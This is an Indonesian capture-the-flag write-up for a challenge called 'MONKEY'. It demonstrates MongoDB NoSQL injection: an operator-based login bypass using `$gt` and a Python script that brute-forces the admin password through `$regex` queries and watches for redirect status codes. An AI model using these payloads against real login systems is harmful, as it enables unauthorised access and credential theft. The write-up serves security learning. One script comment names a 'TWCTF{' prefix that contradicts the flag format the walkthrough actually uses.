

# **MONKEY**

NoSQL injection adalah serangan yang ditujukan untuk melanggar keamanan aplikasi yang menggunakan database NoSQL. Serangan ini mirip dengan serangan SQL injection, tetapi ditargetkan pada database NoSQL yang menggunakan model datanya yang berbeda dengan database relasional.

Dalam serangan NoSQL injection, penyerang mencoba memanipulasi atau menyisipkan data yang tidak valid atau berbahaya ke dalam permintaan atau operasi database NoSQL. Tujuan utama serangan ini adalah untuk mendapatkan akses yang tidak sah ke data sensitif atau merusak integritas data dalam database NoSQL.
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin dan memberikan halaman login serta akun guest:guest untuk masuk.


## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya lakukan adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```ForestyHC{```sehingga hal ini dapat digunakan untuk memverifikasi apakah yang saya lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti ```+, * dan &``` tidak akan ada karena dapat mengganggu Regex (dan hokinya saya tidak ada!)

3) Skrip berhenti ketika saya mendapatkan pengalihan ```302``` ketika karakternya adalah } karena saya yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan flagnya).

And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
